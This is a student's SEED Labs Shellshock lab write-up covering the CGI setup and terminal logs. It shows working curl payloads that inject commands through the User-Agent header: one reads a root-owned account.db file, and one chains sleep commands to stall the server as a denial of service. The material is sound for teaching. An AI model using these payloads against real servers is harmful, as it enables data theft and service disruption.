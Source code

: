 # SEEDlabs: Shellshock Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 1 Lab Description

On  September  24,  2014,  a  severe  vulnerability  in  Bash  was  identified.  Nicknamed  Shellshock,  this vulnerability can exploit many systems and be launched either remotely or from a local machine. In this  lab,  students  will  work  on  this  attack  to  understand  the  Shellshock  vulnerability.  The  learning objective  of  this  lab  is  for  students  to  get  a  hands-on  experience  on  this  interesting  attack, understand how it works, and reflect on the lessons learned from using this attack.


##  2 Lab Tasks

## 2.1 Environment Setup
The Bash program in Ubuntu 16.04 has already been patched, so it is no longer vulnerable to the  Shellshock  attack.  For  the  purpose  of  this  lab,  we  have  installed  a  vulnerable  version  of Bash inside the /bin folder; its name is bash shellshock. We need to use this Bash in our task. Please run this vulnerable version of Bash like the following and then design an experiment to verify whether this Bash is vulnerable to the Shellshock attack or not.

```sh
$ /bin/bash_shellshock
```

##  2.2    Task 1: Attack CGI programs
In  this  task,  we  will  launch  the  Shellshock  attack  on  a  remote  web  server.  Many  web  servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web  applications.  Many  CGI  programs  are  written  using  shell  script.  Therefore,  before  a  CGI program is executed, the shell program will be invoked first, and such an invocation is triggered by a user from a remote computer.

Set up the CGI Program. Create a very simple CGI program (called myprog.cgi) using the root account  in  folder  /usr/lib/cgi-bin/  as  the  following.  Make  this  cgi  executable  by  running  ”chmod 755 myprog.cgi”. It simply prints out "Hello, I am Shellshock!!" using shell script.

```sh
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello, I am Shellshock!!"
```
The  above  CGI  program  in  the  /usr/lib/cgi-bin  directory  and  is  executable.  This  folder  is  the default  CGI  directory  for  the  Apache  web  server.  To  access  this  CGI  program  from  the  Web, you can either use a browser by typing the following URL: http://localhost/cgi-bin/myprog.cgi, or use the following command line program curl to do the same thing:

```sh
curl http://localhost/cgi-bin/myprog.cgi
```
I did the required steps as you can see below:

```sh
[10/13/21]seed@VM:.../cgi-bin$ vim myprog.cgi
[10/13/21]seed@VM:.../cgi-bin$ sudo su
root@VM:/usr/lib/cgi-bin# vim myprog.cgi
root@VM:/usr/lib/cgi-bin# ll
total 12
drwxr-xr-x   2 root root 4096 Oct 13 16:52 ./
drwxr-xr-x 153 root root 4096 Jun 11  2019 ../
-rw-r--r--   1 root root   87 Oct 13 16:52 myprog.cgi
root@VM:/usr/lib/cgi-bin# chmod +x myprog.cgi 
root@VM:/usr/lib/cgi-bin# curl http://localhost/cgi-bin/myprog.cgi

Hello, I am Shellshock!!
root@VM:/usr/lib/cgi-bin#
```


In our setup, we run the Web server and the attack from the same computer, and that is why we use localhost. In real attacks, the server is running on a remote machine, and instead of using localhost, we use the hostname or the IP address of the server.

### Task  1A:  
Get  Secret  Data.  After  the  above  CGI  program  is  set  up,  you  can  launch  the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the Bash program, which is invoked first, before the CGI script is executed. Your goal is to launch the  attack  through  the  URL  http://localhost/cgi-bin/myprog.cgi,  such  that  you  can  achieve something that you cannot do as a remote user. In this task, you need to create an account.db file in directory /usr/lib/cgi-bin using the root account with some random content, e.g.,“ABCDE”. As  a  regular  user  without  the  permission  of  accessing  cgi-bin  folder,  you  now  need  to  get  the content  of  account.db  via  the  Shellshock  attack.  Please  describe  how  your  attack  works.  Note that, your screenshot of successful attack is required for this task.

```sh
[10/19/21]seed@VM:.../cgi-bin$ sudo ln -sf /bin/bash_shellshock /bin/sh
10/19/21]seed@VM:.../cgi-bin$ curl -A '() { echo "hello";}; echo Content_type: text/plain; echo; /bin/cat /usr/lib/cgi-bin/account.db' http://localhost/cgi-bi>
"OZGURURALACCOUNTDB"
```
The bash is not vulnerable in the seed setup. The vulnerable bash program on the seed setup is bash_shellshock. Therefore we used the bash_shellshock. We create a database file named account.db under the /usr/lib/cgi-bin and add an entry. Then we use the vulnerability of bash_shellshock and pass an enviroment variable starting with '() {' - indication a function to the child process, using the user-agent header field of the HTTP request. The vulnerability in the bash program not only converts this enviroment variable into function, but also executes the shell commands present in the environment variable string. We could read the db file with using this vulnerability.

### Task 1B: 
Crash the Server. In this task, we want to crash the server with the Shellshock attack. This kind of attack typically happens for a deny of service. In this task, the /bin/sleep function is your best friend to use in your attack. If you are not familiar with the sleep function, you can use sleep –help for more information. Please describe how your attack works.

```sh
[10/20/21]seed@VM:.../cgi-bin$ curl -A '() { echo "hello";}; echo Content_type: text/plain; echo; /bin/sleep 20| /sbin/sleep 20|/usr/bin/sleep 20'  http://localhost/cgi-bin/myprog.cgi
```sh

It attempts to run the sleep command in three different ways (since systems have slightly different configurations, sleep might be found in the directories /bin or /sbin or /usr/bin). Whichever sleep it runs, it causes the server to wait 20 seconds before replying . That will consume resources on the machine because a thread or process executing the sleep will do nothing else for 20 seconds.

This is perhaps the simplest denial-of-service of all. The attackers simply tells the machine to sleep for a while. Send enough of those commands, and the machine could be tied up doing nothing and unable to service legitimate requests.

